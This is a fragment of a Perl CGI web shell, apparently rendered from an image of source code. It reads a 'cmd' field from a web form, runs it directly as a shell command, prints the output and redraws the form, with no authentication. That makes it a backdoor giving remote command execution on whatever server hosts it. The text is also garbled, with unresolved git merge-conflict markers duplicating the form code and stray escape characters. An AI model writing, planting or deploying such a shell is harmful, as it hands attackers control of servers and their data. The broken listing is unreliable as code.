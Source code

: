 $cmd \=\~ s/\+/ /g;
$cmd \=\~ s/%(..)/pack('c',hex($1))/ge;
$|\=1;

print "Content\-type: text/html\n\n";
print '<HTML><BODY>';
print "<PRE>\n";
chdir("$dir");
$wd\=&pwd;
print "Curr Dir:$wd\n";
$cmdpr \= $cmd;
$cmdpr \=\~ s/&/&/g;
$cmdpr \=\~ s/</</g;
$cmdpr \=\~ s/>/>/g;
print "\n<B>>$cmdpr</B>\n";
if ($cmd \=\~ /^cd(\s)*/ ) {
	unless (chdir($')) {
		print "cd $':not success.\n";
	}
	$dir\=&pwd;
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
	print "Curr Dir:$dir\n";
} else {
	open(PROC,"$cmd 2>&1 |");
	while (<PROC>) {
		s/</\001/g;
		s/>/\002/g;
		s/(.)(\x08\1)+/<B>$1<\/B>/g;
		s/_\x08(.)/<U>$1<\/U>/g;
		s/o\x08\+/<S>X<\/S>/g;
		s/<\/(.)><\1>//g;
		s/&/&/g;
		s/\001/</g;
		s/\002/>/g;
		print $_;
	}
	close(PROC);
}

print "</PRE>\n";
print '<HR>';
<<<<<<< HEAD
print '<FORM ACTION="' . $ownname . '" METHOD="GET">';
print '<INPUT TYPE="hidden" NAME="dir" VALUE="' . $dir . '">';
print '<INPUT TYPE="text" NAME="cmd" SIZE=80 VALUE="' . $cmd . '">';
print '<INPUT TYPE="submit" VALUE="Send">';
=======
print '<FORM ACTION\="' . $ownname . '" METHOD\="GET">';
print '<INPUT TYPE\="hidden" NAME\="dir" VALUE\="' . $dir . '">';
print '<INPUT TYPE\="text" NAME\="cmd" SIZE\=80 VALUE\="' . $cmd . '">';
print '<INPUT TYPE\="submit" VALUE\="Send">';
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
print '</FORM>';
print '</BODY></HTML>';
